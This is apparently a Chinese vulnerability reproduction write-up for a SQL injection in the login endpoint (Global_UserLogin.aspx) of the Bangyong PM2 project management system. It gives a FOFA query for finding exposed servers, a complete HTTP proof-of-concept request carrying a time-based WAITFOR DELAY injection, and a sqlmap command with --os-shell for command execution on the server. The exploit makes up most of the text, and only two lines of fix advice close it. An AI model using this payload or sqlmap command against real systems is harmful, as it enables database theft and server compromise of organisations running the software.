



# 邦永PM2项目管理系统 SQL注入漏洞复现

### 0x01 产品简介

   邦永PM2项目管理系统科学地将项目管理思想和方法和谐、统一，使得长期以来困扰项目管理工作者的工期、进度、投资和成本情况无法整体动态管理的问题得到了全面而彻底的解决。

### 0x02 漏洞概述

  邦永科技PM2项目管理平台Global\_UserLogin.aspx接口处未对用户传入的参数未进行有效的过滤，直接拼接至SQL查询的语句中，导致SQL注入漏洞，攻击者可利用该漏洞获取数据库的敏感信息，深入利用可造成服务器失陷。

### 0x03 复现环境

FOFA：body="PM2项目管理系统BS版增强工具.zip"



### 0x04 漏洞复现 

PoC

```cobol
GET /Global/Global_UserLogin.aspx?accId=1%27%3BWAITFOR+DELAY+%270%3A0%3A5%27--&loginCode=&password=&type= HTTP/1.1
Host: your-ip
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/119.0
```

延时5秒

 Sqlmap利用

```sql
python3 sqlmap.py -u "http://your-ip/Global/Global_UserLogin.aspx?accId=1*&loginCode=&password=&type=" --os-shell
```

命令执行 



### 0x05 修复建议 

关闭互联网暴露面或接口设置外部访问权限

升级至安全版本
